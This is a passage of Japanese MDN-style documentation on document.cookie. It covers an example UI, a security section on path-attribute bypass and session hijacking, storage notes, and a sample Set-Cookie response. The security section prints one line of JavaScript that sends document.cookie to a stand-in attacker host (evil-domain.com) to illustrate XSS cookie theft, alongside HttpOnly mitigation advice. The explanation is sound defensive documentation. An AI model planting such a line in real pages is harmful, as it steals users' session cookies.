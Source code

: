 ```html
<button onclick="checkCookieHasASpecificValue()">
  クッキーが特定の値を持っていることをチェック
</button>

<button onclick="clearASpecificValueOfTheCookie()">クリア</button>

<div>
  <code id="a-specific-value-of-the-cookie"></code>
</div>
```

{{EmbedLiveSample('Example_6_Check_that_a_cookie_has_a_specific_value', 200, 72)}}

## セキュリティ

`path` 属性は、異なるパスによる認証されていないクッキーの読み込みから守ってくれ*ない*ということに注意することが重要です。
これはシンプルな DOM で簡単にバイパスできます (たとえば、クッキーのパスとともに隠し {{HTMLElement("iframe")}} 要素を生成して、この iframe の `contentDocument.cookie` プロパティにアクセスします)。
クッキーのアクセスを守る唯一の方法は、異なるドメインやサブドメインを使うことで、[同一オリジンポリシー](/ja/docs/Web/Security/Same-origin_policy)を適用することです。

クッキーは普段、ウェブアプリケーションでユーザーと認証されたセッションを識別するために使われます。
そこで、ウェブアプリケーションからのクッキーを盗まれると、認証されたユーザーのセッションハイジャックにつながります。
クッキーを盗むための一般的な方法は、[ソーシャルエンジニアリング](https://ja.wikipedia.org/wiki/ソーシャル・エンジニアリング)を使用するか、アプリケーション内の[クロスサイトスクリプティング](/ja/docs/Glossary/Cross-site_scripting) (XSS) 脆弱性の悪用です。

```js
new Image().src = `http://www.evil-domain.com/steal-cookie.php?cookie=${document.cookie}`;
```

`HTTPOnly` クッキー属性は、 JavaScript からのクッキー値へのアクセスを防止することで、この攻撃を軽減することに役立ちます。より詳細情報は [Cookies and Security](https://humanwhocodes.com/blog/2009/05/12/cookies-and-security/) を見てください。

## メモ

- Firefox 2 から、より良いクライアント側ストレージの機構を利用できます。 - [WHATWG DOM ストレージ](/ja/docs/Web/API/Web_Storage_API)です。
- 有効期限を 0 に更新するだけで、クッキーを削除できます。
- クッキーを持てば持つほど、サーバーとクライアント間の通信で、より多くのデータが送信されることを忘れないでください。
  これはリクエストを遅くします。
  もし、クライアントだけにデータを持たせ続けたいなら、 [WHATWG DOM ストレージ](/ja/docs/Web/API/Web_Storage_API) を使うことを強くお勧めします。
- [RFC 2965](https://www.ietf.org/rfc/rfc2965.txt) (5.3 章, "Implementation Limits") は、クッキーのキーまたは値の長さについて**最大長を設けない**よう指定しており、 **arbitrarily large cookies** への対応を実装するよう勧めています。
  各ブラウザーの実装では最大値は異なっている可能性があるので、それぞれのブラウザーのドキュメントを参照してください。

`document.cookie` アクセサープロパティの[構文](#構文)は、クッキーのクライアント・サーバー型の性質によるもので、他のクライアント・クライアントストレージメソッド (例えば [localStorage](/ja/docs/Web/API/Web_Storage_API) など) とは異なります。

#### サーバーがクライアントにクッキーを格納するよう指示する

```bash
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: cookie_name1=cookie_value1
Set-Cookie: cookie_name2=cookie_value2; expires=Sun, 16 Jul 3567 06:23:41 GMT

[content of the page here]
```
